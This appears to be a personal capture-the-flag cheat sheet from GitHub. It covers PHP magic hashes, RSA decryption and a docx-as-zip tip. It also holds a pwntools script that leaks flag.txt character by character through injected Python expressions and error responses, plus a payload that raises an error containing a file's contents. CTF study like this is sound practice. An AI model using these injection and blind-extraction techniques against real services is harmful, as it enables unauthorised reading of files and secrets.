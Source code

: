 # CTF-Notes
## Web
* PHP type juggling
`md5( 0e215962017 ) ---> 0e291242476940776845150308577824`
```
plaintext :  0e001233333333333334557778889
md4 hash  :  0e434041524824285414215559233446
```
 
## Pwn
##### Timing Attack poc 
```
from pwn import remote
import string
host = ""
port = 
s = remote(host, port)
flag = ""
index = 0
changed = True
s.recvuntil('!\n')
while changed:
    changed = False
    for c in '_{}' + string.printable:
    	print("testing {}".format(flag + c))
    	command = '''1/0 if open('flag.txt','r').read({})[{}] == ''{}' else 0\n'''.format(index + 1, index, c)
    	print(command)
    	s.send(command)
    	answer = s.recvuntil("!\n")
    	if b'Traceback' in answer:
    		flag += c
    		changed = True
    		index += 1
    		break
```

## Forensics
* .docx file ? try open it as zip archive  


## Reverse Engineering
## Crypto
#### solve RSA


```
from Crypto.Util.number import inverse,long_to_bytes

p = 
q = 
e =
ct = 

n = p * q
phi = (p - 1) * (q - 1)
d = inverse(e,phi)
plain = pow(ct,d,n)
print(long_to_bytes(plain))
```
[cool RSA write-ups](https://github.com/W3rni0/RACTF_2020) 
## Misc/various 
#### Raise an error with the flag (python)
Ex: `raise NameError(open('flag.txt','r').read(50))`

#### No output on the shell?
try redirection ex: `ls 1>&0`

